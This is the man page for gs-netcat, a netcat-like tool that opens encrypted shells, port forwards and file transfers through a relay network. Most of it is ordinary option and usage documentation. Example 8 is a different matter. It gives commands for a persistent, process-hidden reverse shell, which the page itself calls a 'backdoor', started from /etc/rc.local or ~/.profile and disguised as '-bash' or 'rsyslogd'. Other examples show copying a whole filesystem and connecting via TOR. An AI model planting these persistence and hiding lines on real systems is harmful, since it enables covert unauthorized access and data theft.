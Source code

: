 \# .TH gs-netcat 1 "08 October 2020" "1.0" "gs-netcat man page"
.Dd October 08, 2020
.Dt GS-NETCAT 1
.Os
.Sh NAME
.Nm gs-netcat
.Nd transfer data, forward traffic and execute commands on a remote host. Securely.
.Sh SYNOPSIS
.Nm gs-netcat
.Op Fl rlgvqwCTSDiu
.Op Fl s Ar secret
.Op Fl k Ar keyfile
.Op Fl L Ar logfile
.Op Fl d Ar IP
.Op Fl p Ar port
.Op Fl e Ar cmd
.Sh DESCRIPTION
The
.Nm
utility is a re-implementation of netcat. It allows two or more users to establish a secure TCP connection with each other in a scenario where all users are behind NAT/Firewall and would not be able to connect to each other directly. Typically a connection between one workstation and another workstation on a different Local Area Network.
.Pp
It uses the Global Socket Relay Network (GSRN) instead of direct TCP connections. Neither workstation needs to open a port in their firewall or accept incoming TCP connections.
.Pp
The connection is end-2-end encrypted using SRP (RFC 5054) with AES-256 and a 4096 Prime. The GSRN sees only the encrypted traffic. 
.Pp
Common uses include:
.Pp
.Bl -bullet -offset indent -compact
.It
simple TCP proxies
.It
PTY shell
.It
File transfer
.It
a SOCKS ProxyCommand for
.Xr ssh 1
.It
and much, much more.
.El
.Pp
.Sh OPTIONS
.Bl -tag -width Ds
.It Fl C
Disable encryption and use clear-text instead. Use with caution.
.It Fl d Ar ip
Destination IPv4 address for port forwarding.
.It Fl D
Daemon & Watchdog mode. Start
.Nm
as a background process and restart if killed.
.It Fl e Ar cmd
Execute command and send output to the connected client. Needs -l.
.It Fl g
Generate a secure random password and output it to standard output.
.It Fl i
Interactive login shell. The server spawns a true PTY login shell. The client acts as a true PTY client (with Ctrl-C etc working). The client can terminate the session by typing 'Ctrl-e q' at any time or by typing 'exit'. The server supports multiple clients at the same time.
.It Fl k Ar file
A file containing the password.
.It Fl l
Server/Listening mode. The default mode is client.
.It Fl L Ar file
Log file [default: standard out]
.It Fl p Ar port
Port to listen on or to forward traffic to [1-65535].
.It Fl q
Quiet mode. Do not output any warnings or errors.
.It Fl r
Receive-only. Do not send any data. Terminate when no more data is available for reading.
.It Fl s Ar secret
A password chosen by the user. Both users need to use the same password to connect.
.It Fl S
Act as a SOCKS4/4a/5 server. The server acts as a SOCKS4/4a/5 proxy. It allows multiple
.Nm
clients to (securely) relay traffic via the server. Needs -l.
.It Fl T
Use TOR. The
.Nm
tool will connect via TOR to the GSRN. This requires TOR to be installed and running. The IP and PORT of the TOR server can be set using environment variables.
.It Fl u
Use UDP instead of TCP for port forwarding. Needs -p. 
.It Fl v
Prints status messages. Use -vv to be more verbose and -vvv to be insanely verbose. 
.It Fl w
Client to wait for the listening server to become available.
.El
.Sh CONSOLE
The interactive login shell (
.Ar -i
) has a command console. Pressing 'Ctrl-e c' (e for EEEElite) opens the command console. The command console displays the following information:
.Pp
.Bl -bullet -offset indent -compact
.It
Latency (in milliseconds) to the remote host
.It
Warning when a user logs into the system or becomes active
.It
Data throughput
.It
File transfer logs
.El
Type 'help' for a list of available commands.
.Sh FILETRANSFER
File transfer is available from the command console. Files are transferred with the permission and modification timestamp unchanged. Partially transferred files are re-started where the transfer was left off.
The 'put' command is used for uploading:
.Dl put foobar.txt
.Dl put $HOME/foobar.txt
.Dl put /tmp/*.log
.Dl put $(find . -type f -name '*.c')
(The above example shows Shell Variable substitution and word expansion)
It is possible to limit the amount of path information that is sent as implied directories for each path you specify. You can insert a dot and a slash into the source path, like this:
.Dl put /foo/./bar/baz.c
That would create /tmp/bar/baz.c on the remote machine. 
The 'get' command is used for downloading:
.Dl get foobar.txt
.Dl get $(find /var/./ -name '*.log')
Transferring a directory automatically transfers all files and directories within that directory (recursively):
.Dl get /var/log
.Dl get /
The first command transfers all directories and files in /var/log/*. The latter command transfers the entire filesystem.
Multiple get/put commands can be scheduled at the same time.
.Sh EXAMPLES
.Nm Example 1
- Listen for a new connection using the password 'MySecret':
.Dl $ gs-netcat -s MySecret -l
.Pp
Connect with client using the same password:
.Dl $ gs-netcat -s MySecret
.Pp
.Nm Example 2
- spawn a PTY login shell when a client connects:
.Dl $ gs-netcat -s MySecret -l -i
.Pp
Log in to server's interactive shell:
.Dl $ gs-netcat -s MySecret -i
.Pp
Log in via TOR:
.Dl $ gs-netcat -s MySecret -i -T
.Pp
Log in via a Socks5 Proxy:
.Dl $ export GSOCKET_SOCKS_IP=127.0.0.1
.Dl $ export GSOCKET_SOCKS_PORT=1080
.Dl $ gs-netcat -s MySecret -i -T
.Pp
.Nm Example 3
- Execute a command when a client connects:
.Dl $ gs-netcat -s MySecret -l -e 'echo hello world; id; exit'
.Pp
Connect client to the server:
.Dl $ gs-netcat -s MySecret
.Pp
.Nm Example 4
- Pipe data from client to server:
.Dl $ gs-netcat -s MySecret -l -r >warez.tar.gz
.Pp
Client to read 'warez.tar.gz' and pipe it to the server.
.Dl $ gs-netcat -s MySecret <warez.tar.gz
.Pp
.Nm Example 5
- Server to act as a SOCKS4/4a/5 server:
.Dl $ gs-netcat -s MySecret -l -S
.Pp
Client to listen on TCP port 1080 and forward any new connection to the server's SOCKS server:
.Dl $ gs-netcat -s MySecret -p 1080
.Pp
.Nm Example 6
- TCP Port Forward all connections to 192.168.6.7:22. Server:
.Dl $ gs-netcat -s MySecret -l -d 192.168.6.7 -p 22
.Pp
Client to listen on TCP port 2222 and forward any new connection to the the server. The server then forwards the connection to 192.168.6.7:22.
.Dl $ gs-netcat -s MySecret -p 2222
.Dl $ ssh -p 2222 root@127.0.0.1
.Pp
The same using 1 command:
.Dl $ ssh -o ProxyCommand='gs-netcat -s MySecret' root@ignored
.Pp
.Nm Example 7
- Creating an SFTP server using gs-netcat:
.Dl $ gs-netcat -s MySecret -l -e /usr/lib/sftp-server
.Pp
The sftp-server binary speaks the sftp-protocol to stdin/stdout. The sftp binary also speaks sftp-protocol to stdin/stdout. The tool can be used to connect both via GSRN (encrypted) and access the SFTP server running on the server's side from the client via the GSRN (encrypted).:
.Dl $ export GSOCKET_ARGS='-s MySecret'
.Dl $ sftp -D gs-netcat
.Pp
.Nm Example 8
- Encrypted Reverse PTY shell hidden as '-bash' in the process list - also known as 'backdoor':
.Dl $ (GSOCKET_ARGS="-s MySecret -liqD" exec -a -bash gs-netcat)
.Pp
The following line in /etc/rc.local starts the backdoor after each system reboot:
.Dl GSOCKET_ARGS="-s MySecret -liqD" HOME=/root TERM=xterm-256color SHELL="/bin/bash" /bin/bash -c\ "cd $HOME; exec -a rsyslogd /usr/local/bin/gs-netcat"
.Pp
The following line in /etc/rc.local starts a port-forward to 127.0.0.1:22:
.Dl GSOCKET_ARGS="-k MySecret2 -lqD -d 127.1 -p22"  /bin/bash -c\ "exec -a rsyslogd /usr/local/bin/gs-netcat"
.Pp
The following line in the user's ~/.profile starts the backdoor (once) when the user logs in. All in one line:
.Dl killall -0 gs-netcat 2>/dev/null || (GSOCKET_ARGS="-s MySecret3 -liqD" SHELL=/bin/bash exec -a -bash /usr/local/bin/gs-netcat)
.Pp
The '(...)' brackets start a sub-shell which is then replaced (by exec) with the gs-netcat process. The process is hidden (as -bash) from the process list.
.Pp
Client to connect to the backdoor:
.Dl $ gs-netcat -s MySecret -i
.Sh ENVIRONMENT
The following environment variables can be set to control the behavior of
.Nm
.Pp
.Nm GSOCKET_SOCKS_IP
.Dl Specify the IP address of the TOR server (or any other SOCKS server). Use together with -T. Default is 127.0.0.1.
.Pp
.Nm GSOCKET_SOCKS_PORT
.Dl The port number of the TOR server (or any other SOCKS server). Use together with -T. Default is 9050.
.Pp
.Nm GSOCKET_ARGS
.Dl A string containing additional command line parameters. First the normal command line parameters are processed and then the command line parameters from GSOCKET_ARGS.
.Sh SECURITY
Passing the password as command line parameter is not secure. Consider using the -k option or GSOCKET_ARGS or enter the password when prompted:
.Pp
.Dl $ gs-netcat -k <file>
.Pp
.Dl $ export GSOCKET_ARGS="-s MySecret"
.Dl $ gs-netcat
.Pp
.Nm 1.
The security is end-2-end. This means from User-2-User (and not just to the GSRN). The GSRN relays only (encrypted) data to and from the users.
.Pp
.Nm 2.
The session is 256 bit and ephemeral. It is freshly generated for every session and generated randomly (and is not based on the password). It uses OpenSSL's SRP with AES-256 and a 4096 Prime.
.Pp
.Nm 3.
The password can be 'weak' without weakening the security of the session. A brute force attack against a weak password requires a new TCP connection for every guess.
.Pp
.Nm 4.
Do not use stupid passwords like 'password123'. Malice might pick the same (stupid) password by chance and connect. If in doubt use gs-netcat -g to generate a strong one. Alice's and Bob's password should at least be strong enough so that Malice can not guess it by chance while Alice is waiting for Bob to connect.
.Pp
.Nm 5.
If Alice shares the same password with Bob and Charlie and either one of them connects then Alice can not tell if it is Bob or Charlie who connected.
.Pp
.Nm 6.
Assume Alice shares the same password with Bob and Malice. When Alice stops listening for a connection then Malice could start to listen for the connection instead. Bob (when opening a new connection) can not tell if he is connecting to Alice or to Malice. Use -a <token> if you worry about this. TL;DR: When sharing the same password with a group larger than 2 then it is assumed that everyone in that group plays nicely. Otherwise use SSH over the GS/TLS connection.
.Pp
.Nm 7.
SRP has Perfect Forward Secrecy. This means that past sessions can not be decrypted even if the password becomes known.
.Sh NOTES
The latest version is available from https://github.com/hackerschoice/gsocket/.
.Sh SEE ALSO
.Xr gsocket(1) ,
.Xr gs-sftp(1) ,
.Xr gs-mount(1) ,
.Xr blitz(1) ,
.Xr nc(1) ,
.Xr socat(1)
.Sh BUGS
Efforts have been made to have
.Nm
"do the right thing" in all its various modes. If you believe that it is doing the wrong thing under whatever circumstances, please notify me (skyper@thc.org) and tell me how you think it should behave.
